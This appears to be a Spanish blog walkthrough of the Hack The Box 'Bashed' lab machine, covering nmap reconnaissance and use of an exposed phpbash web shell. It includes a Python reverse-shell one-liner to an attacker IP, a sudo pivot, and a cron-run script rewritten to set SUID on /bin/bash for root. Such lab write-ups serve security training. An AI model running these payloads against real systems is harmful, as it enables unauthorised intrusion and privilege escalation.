 ```yaml
---
title: Hack The Box Bashed
author: k4miyo
date: 2022-01-02
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Easy, Linux]
tags: [File Misconfiguration, Web]
ping: true
---
```


## Bashed
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.68.

```bash
❯ ping -c 1 10.10.10.68
PING 10.10.10.68 (10.10.10.68) 56(84) bytes of data.
64 bytes from 10.10.10.68: icmp_seq=1 ttl=63 time=143 ms

--- 10.10.10.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 142.530/142.530/142.530/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Linux. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -T5 -v -n 10.10.10.68 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 18:34 CST
Initiating Ping Scan at 18:34
Scanning 10.10.10.68 [4 ports]
Completed Ping Scan at 18:34, 0.17s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 18:34
Scanning 10.10.10.68 [65535 ports]
Discovered open port 80/tcp on 10.10.10.68
SYN Stealth Scan Timing: About 43.17% done; ETC: 18:35 (0:00:41 remaining)
Completed SYN Stealth Scan at 18:35, 64.60s elapsed (65535 total ports)
Nmap scan report for 10.10.10.68
Host is up (0.20s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 64.95 seconds
           Raw packets sent: 67158 (2.955MB) | Rcvd: 67155 (2.686MB)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬─────────────────────────────────────
       │ File: extractPorts.tmp
───────┼─────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.68
   5   │     [*] Open ports: 80
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sCV -p80 10.10.10.68 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 18:44 CST
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.89 seconds
```

Tenemos sólo el puerto 80 abierto, así que como siempre, antes de ver el contenido vía web, vamos a ocupar la herramienta `whatweb`:

```bash
❯ whatweb http://10.10.10.68/
http://10.10.10.68/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

Por el momento no vemos nada interesante, así que ahora si vamos a ver el contenido vía web.

![](/assets/images/htb-bashed/bashed-web.png)

Analizando un poco el sitio web, vemos que cuenta con un recurso llamado `single.html` en el cual nos hablando de ***phpbash*** y nos dan la pista que se encuentra en el servidor.

![](/assets/images/htb-bashed/bashed-web1.png)

Antes de tirar con herramientas tochas, vamos a tratar de descubrir rutas en el servidor mediante `nmap`:

```bash
❯ nmap --script http-enum -p80 10.10.10.68 -oN webScan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 18:45 CST
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds
```

Aqui ya vemos varios recursos que nos pueden llamadar la atención y empezaremos con `/dev/` y nos encontramos el proyecto del que nos hablan ***phpbash***:

![](/assets/images/htb-bashed/bashed-web2.png)

![](/assets/images/htb-bashed/bashed-web3.png)

Vemos que podemos ejecutar comandos a nivel de sistema; tanto en `phpbash.min.php` como en `phpbash.php`. Podriamos pensar que con dicha herramienta ya tenemos ejecución de comandos y podemos entablarnos una reverse shell, y es correcto. Para este caso, validamos primero que cuente con python y posteriormente nos pusimos en escucha por el puerto 443 y mandamos una reverse shell.

![](/assets/images/htb-bashed/bashed-web4.png)

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 57542
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Como siempre y para trabajar maś cómodos, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Ya nos encontramos dentro de la máquina como el usuario **www-data** y podemos visualizar la flag (user.txt). Vamos a enumerar un poco el sistema para ver de que forma podemos escalar privilegios.

```bash
www-data@bashed:/home/arrexel$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel$
```

Y vemos que podemos ejecutar cualquier comando como el usuario **scriptmanager**; asi que podemos migrar fácilmente a dicho usuario:

```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
scriptmanager@bashed:/home/arrexel$
```

Ya como el usuario **scriptmanager** podemos intuir que deben existir recursos asociados a dicho usuario, así que realizaremos una búsqueda.

```bash
scriptmanager@bashed:/$ find \-user scriptmanager 2>/dev/null | grep -v "proc"
./scripts
./scripts/test.py
./home/scriptmanager
./home/scriptmanager/.profile
./home/scriptmanager/.bashrc
./home/scriptmanager/.nano
./home/scriptmanager/.bash_history
./home/scriptmanager/.bash_logout
scriptmanager@bashed:/$
```

Tenemos un script en python bajo la ruta `/scripts`, así que vamos a echarle un ojito.

```bash
scriptmanager@bashed:/$ cd scripts/
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Jan  2 17:24 test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.txt; echo
testing 123!
scriptmanager@bashed:/scripts$
```

A este punto ya debemos estar pensando que se debe ejecutar una tarea a intervalos regulares y que posiblemente **root** ejecutar el script, ya que el resultado es un archivo llamado `test.txt` cuyo propietario es **root**. Para validarlo, podemos crear nuestro archivo de confianza [ProcMon](/posts/procmon) en una ruta donde tengamos privilegios `/dev/shm`.

```bash
scriptmanager@bashed:/dev/shm$ ./procmon.sh 
> /usr/sbin/CRON -f
> /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
> [python] <defunct>
< /usr/sbin/CRON -f
< /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
< [python] <defunct>
^C
scriptmanager@bashed:/dev/shm$
```

Por lo tanto, como tenemos permisos de escrita para el archivo `test.py`, vamos a modificarlo para dar permisos SUID a `/bin/bash`.

```python
import os

os.system("chmod 4755 /bin/bash")
```

Ahora esperamos a que **root** nos ejecute el script y podamos ejecutar `bash -p` para ganar acceso como dicho dicho usuario.

```bash
scriptmanager@bashed:/scripts$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt). Se comparte autopwn de la máquina [Bashed_Autopwn](https://github.com/k4miyo/Bashed-Autopwn)
